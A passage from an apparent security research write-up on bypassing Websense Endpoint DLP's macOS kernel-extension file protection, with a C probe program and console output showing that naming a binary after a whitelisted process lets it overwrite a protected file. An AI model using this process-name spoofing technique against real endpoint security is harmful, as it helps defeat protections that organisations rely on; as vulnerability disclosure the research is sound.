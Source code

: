 Can I prove that I can circumvent their protection?

```c
$ cat probe.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    FILE *fp = fopen("version.plist", "w");
    if (!fp) {
        perror("Can't fopen\n");
       exit(1);
    }

    fprintf(fp, "Hello, world\n");
    fclose(fp);
    sleep(60);
    exit(0);
}
```

This is a slight variation of the “hello world” program: It opens a file version.plist, writes "Hello, world" to the file, sleeps a minute and exits.

First, expected behavior: Boy meets file, file is world writeable, boy tries to write file, and fails due to the kext doing the kauth thing and interfering.

Hackerterrorcybercyber averted.

```console
$ pwd
/Library/Application Support/Websense Endpoint/EPClassifier/python/Resources
$ ls -l version.plist
-rwxrwxrwx 1 root admin 454 May 26 07:13 version.plist
$ > version.plist
-bash: version.plist: Permission denied
```

Boy reverses the kext, reads the list of privileged filenames, names his "hello world" program kvoop from the list of privileged filenames and lo and behold:

```console
$ kvoop
^C
$ cat version.plist
Hello, world
```

I pwn.

## Other observations

Websense DLP is one of the kind of products that inject a shared library (a Macos `.dylib`) into other processes. In our case, Chrome and Firefox are being targeted. This is not a stable interface, and [Chrome or Firefox may crash](https://www.techradar.com/news/google-chrome-keeps-crashing-it-might-be-your-antivirus).
